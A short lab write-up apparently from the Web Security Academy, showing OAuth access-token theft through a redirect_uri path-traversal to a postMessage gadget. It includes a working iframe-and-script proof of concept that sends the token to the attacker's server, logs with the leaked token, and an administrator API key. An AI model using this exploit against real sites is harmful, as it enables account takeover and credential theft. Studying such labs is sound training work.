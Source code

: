 Discovered a gadget which allows to leak the full URL to a parent windows and which can be embedded from any origin:
```http
GET /post/comment/comment-form
Host: 0a4400a404fbab3d800c80bf00c100d0.web-security-academy.net


HTTP/1.1 200 OK
...
<script>
	parent.postMessage({type: 'onload', data: window.location.href}, '*')
...
```

PoC:
```html
<!-- iframe performing the redirection to the gadget using the redirect_uri source -->
<iframe src="https://oauth-0a42003d046dab1680507e2d02380016.oauth-server.net/auth?client_id=vezbo7n5myci2j8wvsgkh&redirect_uri=https://0a4400a404fbab3d800c80bf00c100d0.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=1947969098&scope=openid%20profile%20email"></iframe>

<!-- script listening for messages and leaking the intercepted data -->
<script>
    window.addEventListener('message', function(e) {
        fetch("/" + encodeURIComponent(e.data.data))
    }, false)
</script>
```

Leaked the access token and administrator data:
```http
Logs:
...
10.0.4.171      2023-06-30 11:52:06 +0000 "GET /exploit/ HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36"
10.0.4.171      2023-06-30 11:52:07 +0000 "GET /https%3A%2F%2F0a4400a404fbab3d800c80bf00c100d0.web-security-academy.net%2Fpost%2Fcomment%2Fcomment-form%23access_token%3D2W3Q35rmXvGb84DMkIGQ3Rk9qXJ4c1cA4WM3m_RoIvT%26expires_in%3D3600%26token_type%3DBearer%26scope%3Dopenid%2520profile%2520email HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36"
...


GET /me HTTP/1.1
Host: oauth-0a42003d046dab1680507e2d02380016.oauth-server.net
Content-Type: application/json
Authorization: Bearer 2W3Q35rmXvGb84DMkIGQ3Rk9qXJ4c1cA4WM3m_RoIvT


HTTP/1.1 200 OK
{"sub":"administrator","apikey":"yCYps7ZVmqsM5Bsc3Z5TOX7YXDzjNbs9","name":"Administrator","email":"administrator@normal-user.net","email_verified":true}
```
